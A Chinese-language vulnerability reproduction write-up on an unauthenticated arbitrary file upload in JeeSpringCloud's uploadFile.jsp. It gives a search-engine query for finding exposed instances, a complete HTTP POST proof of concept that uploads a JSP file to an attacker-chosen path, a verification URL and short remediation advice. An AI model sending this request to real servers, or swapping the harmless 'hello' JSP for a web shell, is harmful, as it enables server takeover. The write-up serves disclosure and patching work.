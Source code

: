 
# JeeSpringCloud uploadFile.jsp 文件上传漏洞复现

###  0x01 产品简介

  JeeSpringCloud 是一款免费开源的 JAVA 互联网云[快速开发平台](https://so.csdn.net/so/search?q=%E5%BF%AB%E9%80%9F%E5%BC%80%E5%8F%91%E5%B9%B3%E5%8F%B0&spm=1001.2101.3001.7020)，微服务分布式代码生成的敏捷开发系统架构，项目代码简洁、注释丰富、上手容易、还同时集中分布式、分布式事务、微服务，同时包含许多基础模块和监控、服务模块，JeeSpringCloud GVP 项目、1k+Star 项目。

### 0x02 漏洞概述

 JeeSpringCloud 是一款免费开源的 Java 互联网云快速开发平台。JeeSpringCloud 访问 /static/uploadify/uploadFile.jsp 可上传任意文件，并可通过 uploadPath 参数指定文件上传路径，导致服务器被控制。

### 0x03 复现环境

钟馗之眼：app:"JeeSpringCloud"

![](assets/1701138387-9421c54b56b98f384b08e13d608fee13.png)

### 0x04 漏洞复现 

PoC

```http
POST /static/uploadify/uploadFile.jsp?uploadPath=/static/uploadify/ HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 199
Content-Type: multipart/form-data; boundary=0d0d9bdfedC1bF17Cb47265DdCb04266
Accept-Encoding: gzip
Connection: close

--0d0d9bdfedC1bF17Cb47265DdCb04266
Content-Disposition: form-data; name="fileshare"; filename="1.jsp"
Content-Type: image/jpeg

<% out.println("hello"); %>
--0d0d9bdfedC1bF17Cb47265DdCb04266--
```

![](assets/1701138387-8956284e41a6edbfbe537d97915abb48.png)

验证路径

```http
http://your-ip/static/uploadify/回显的jsp文件名
```

![](assets/1701138387-5d46702c1e2408a89d80c191ed69a9e7.png)

### 0x05 修复建议

关闭互联网暴露面或文件上传模块设置权限认证

升级至安全版本
